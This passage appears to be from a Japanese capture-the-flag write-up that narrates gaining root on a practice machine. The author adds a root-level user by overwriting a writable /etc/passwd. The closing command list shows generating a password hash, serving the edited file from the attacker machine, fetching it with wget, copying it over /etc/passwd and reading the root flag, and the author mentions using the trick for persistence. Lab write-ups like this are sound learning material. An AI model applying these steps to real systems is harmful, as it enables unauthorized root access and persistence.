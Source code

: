 ```bash
whoami
nobunaga

```
  
信長さま...。  
ま、まぁでももういっちょ！  
  
```bash
su user02
pass123

```
  
```bash
whoami
root

```

うおーーーーーーーー！  
遂に取れた！結構うれしかったな。  
つーことで後は、`フラグ`とるだけということで、  
  
```bash
cat /root/root.txt
Great!TheFirstStepForYourPenTester

```
  
正直超難しかったな。  
書き換えるって発想がなかなかわかなかった。  
でも、`/etc/passwd`ってこんな感じで改ざんするだけでほんとにユーザ追加できちゃうんだね。  
今後永続化とかに使えるかな？とか考えてみたり。  
あと、やっぱ`生パスワード`じゃ上手くいかないんだね。  
ほんとにできないのか、やり方が間違ったのかを評価するほど体力が残ってないので、今回は`できない`という結論で落ち着くことにした。  
もしできたって人いたら教えてね～  
  
  
### コマンド
  
```bash
cat /etc/passwd
  
┌──(kali㉿kali)-[~/Desktop]
└─$ openssl passwd -6 -salt ignite pass123
$6$ignite$NpGq6ii4Sbk2v/3uaWdIbMDDbHAt6m.CPYIGYQuoJnMNuKka8NrYFBMd.yYK6n9.3SALkeNDq1CoGbgoW8bgd.  

┌──(kali㉿kali)-[~/Desktop]
└─$ vim passwd

wget -O /tmp/passwd http://10.15.0.6:9000/passwd

┌──(kali㉿kali)-[~/Desktop]
└─$ python -m http.server 9000

ls -al /tmp

cp /tmp/passwd /etc/passwd

cat /etc/passwd

su user02
pass12

whoami

cat /root/root.txt
```